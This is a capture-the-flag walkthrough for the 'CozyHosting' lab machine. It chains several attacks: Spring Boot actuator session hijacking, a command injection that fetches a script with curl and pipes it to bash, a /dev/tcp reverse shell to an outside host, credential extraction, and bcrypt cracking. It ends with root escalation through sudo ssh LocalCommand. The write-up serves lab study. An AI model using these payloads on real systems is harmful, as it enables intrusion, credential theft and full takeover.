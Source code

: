 
Starting with nmap 

```
nmap -sC -sV {target ip}
```

We see that ports 22 and 80 are open.

When navigating to the ip in the web-browser we get the domain `cozyhosting.htb`, and we can add the domain to the hosts file.

```
echo "10.10.11.230  cozyhosting.htb" | sudo tee -a /etc/hosts
```

Using ffuf we enumerate the directories,

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-
medium.txt:FFUZ -u http://cozyhosting.htb/FFUZ -ic -t 100
```

We find a few useful directories including `login`. Upon accessing the `/login` page, we cannot gain access to the app, but we are able to find that this is a Java Spring Boot application.

We run the ffuf scan again with a Spring Boot wordlist:

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/spring-boot.txt:FFUZ
-u http://cozyhosting.htb/FFUZ -ic -t 100
```
We find `actuator/mappings` is exposed, we can visit that web address and we find the `actuator/sessions` endpoint is revealing user data. When we visit `/actuator/sessions` the user `kanderson` has a cookie revealed. 

We can use the cookie we found when visiting the `/admin` directory with the developer's console in the `storage` tab. This gets us access to the web application.

We spin up a local server 

```
python -m http.server 7000
```

And we attempt to ping the server by entering the following into the input Hostname/Username, `127.0.0.1/test;curl${IFS}http://10.10.14.49:7000;`

We receive a GET request on the local web server. So we spin up a netcat listener, and create a reverse shell locally.

```
nc -lnvp
```
```
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.49/4444 0>&1' > rev.sh
```

We change the payload to connect to our local netcat listener, while keeping the hostname `127.0.0.1`:

```
test;curl${IFS}http://10.10.14.49:7000/rev.sh|bash;
```

Upon sending the request in the webapp, we get a shell on our netcat listener.

Our shell lands in the `/app` directory where we unzip the `cloudhosting-0.0.1.jar` file.

We unzip the file:

```
unzip -d /tmp/app cloudhosting-0.0.1.jar
```
There are database credentials in the file:

```
cat /tmp/app/BOOT-INF/classes/application.properties
```

`postgres:Vg&nvzAQ7XxR`

We connect to postgres and the database

```
$psql -h 127.0.0.1 -U postgres
$\connect cozyhosting
$select * from users;
```

From the admin user we get the hash:

```
hashid $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm

Analyzing '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt
```

```
hashcat hash_file -m 3200 /usr/share/wordlists/rockyou.txt
```
We get the username:password `josh:ManchesterUnited`

We login to josh with `ssh`, and josh's flag is `/home/josh/user.txt`

Running `sudo -l` we find the file `usr/bin/ssh` can be run as root.

We run: 
```
sudo /usr/bin/ssh -v -o PermitLocalCommand=yes -o 'LocalCommand=/bin/bash'
josh@127.0.0.1
```

Which gives us root access, the flag can then be found at `/root/rrot.txt`



